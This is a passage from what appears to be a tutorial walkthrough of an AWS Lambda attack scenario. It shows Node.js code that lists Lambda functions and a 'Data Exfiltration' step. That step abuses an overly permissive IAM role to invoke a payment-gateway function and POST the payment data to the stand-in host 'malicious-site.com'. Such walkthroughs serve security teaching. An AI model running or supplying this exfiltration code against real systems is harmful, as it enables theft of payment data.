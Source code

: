 ```

// Add the functions to our list
functions.push(...response.Functions);

// Check if there are more functions to fetch
nextMarker = response.NextMarker;
} while (nextMarker);

// Log and return the list of functions
console.log('Available Lambda functions:');
functions.forEach(func => {
console.log(`- ${func.FunctionName} (Runtime: ${func.Runtime}, Last Modified: ${func.LastModified})`);
});

return functions;
} catch (error) {
console.error('Error listing Lambda functions:', error);
throw error;
}

}
```

Running this the attacker will find that there is a payment-gateway Lambda. The next step will be to try to understand any exploitation potential.

### Step 5: Data Exfiltration

With the overly permissive IAM role, the attacker can now invoke another Lambda functions, specifically the payment-gateway function in-order to get payment information from the application database:

```
const AWS = require('aws-sdk');
const https = require('https');

async function lateralMovement() {
const lambda = new AWS.Lambda();

try {
// Invoke the payment-gateway function
const response = await lambda.invoke({
FunctionName: 'payment-gateway',
InvocationType: 'RequestResponse',
Payload: JSON.stringify({ action: "list_transactions" })
}).promise();

// Extract sensitive payment data
const paymentData = JSON.parse(response.Payload);
 
// Exfiltrate sensitive payment data
await new Promise((resolve, reject) => {
const req = https.request({
hostname: 'malicious-site.com',
port: 443,
path: '/payload',
method: 'POST',
headers: {
'Content-Type': 'application/json'

}
}, (res) => {
res.on('data', () => {});
res.on('end', resolve);
```